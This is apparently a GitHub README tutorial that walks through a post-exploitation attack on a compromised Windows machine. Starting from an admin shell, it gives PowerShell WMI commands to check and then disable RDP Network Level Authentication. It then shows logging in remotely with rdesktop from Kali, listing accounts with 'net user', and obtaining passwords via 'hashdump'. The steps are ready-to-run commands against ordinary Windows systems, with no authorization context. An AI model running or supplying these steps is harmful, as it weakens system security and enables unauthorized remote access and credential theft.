









## WARNING
-DO THIS AT YOUR OWN RISK :) 

1. Shell Needed Requires Admin Privilege.
2. Powershell MUST be Used !
3. You will need the password of the Desktop you are connecting to save time.
 
## Here are the Steps 

1. Once you have Admin Level Shell

2. Run a Sysinfo to see the Name of the Desktop.

      Image is seen below:

      

3. In the Powershell, 
  You need to establish the Variable of the Name of the System.
   
   Follow the Codes in Order :-
    
   - `shell`
    
   - `powershell`
    
   - `$ComputerName = " NAME SEEN IN SYSINFO "`
  
    Image is seen below:

    
      
4. Once you have done this, You will need to check if you require Network Level Authentication(NLA).
    Use the Following command to check if you do not know:-
    
    `(Get-WmiObject -class "Win32_TSGeneralSetting" -Namespace root\cimv2\terminalservices -ComputerName $ComputerName -Filter "TerminalName='RDP-tcp'").UserAuthenticationRequired`
    
    
    **If "1" is returned, it means NLA is on.**
    
    
    **If "0" is returned, it means NLA is off.**
    
    
    Image is seen below:

    
    
5. Since we do not have Network Level Authentication(NLA), We need to turn off the NLA. 
   Using Admin Level Powershell,
   
    `(Get-WmiObject -class "Win32_TSGeneralSetting" -Namespace root\cimv2\terminalservices -ComputerName $ComputerName -Filter "TerminalName='RDP-tcp'").SetUserAuthenticationRequired(0)`
  
      
      Image is seen below:

    
  
    Now It will be turned off.
    Use Number 4 command to check if it worked. 
  
      Image is seen below:

      
  
6. Since now it is off, we can connect using our normal shell in our own machine.
    Ue the command in Kali Linux Shell to connect:-
  
    `rdesktop <IP ADDRESS> -u <Username> -p <Usermame's Password>`
    
    Image is seen below:

    

    
    
    **- If you do not know the Username, run the command `net user` in the Powershell**
    
     Image is seen below:

     
    
    **- If you do not know the Username's Password, hashdump will be required.**
    
    
7. Once you have finished with everything, to reactivate the Network Level Authentication(NLA).
    Using the Admin Level Powershell,
    
     `(Get-WmiObject -class "Win32_TSGeneralSetting" -Namespace root\cimv2\terminalservices -ComputerName $ComputerName -Filter "TerminalName='RDP-tcp'").SetUserAuthenticationRequired(1)`

    Image is seen below:

    

    Now It will be turned off.
    Use Number 4 command to check if it worked.
   
    Image is seen below:

    

  
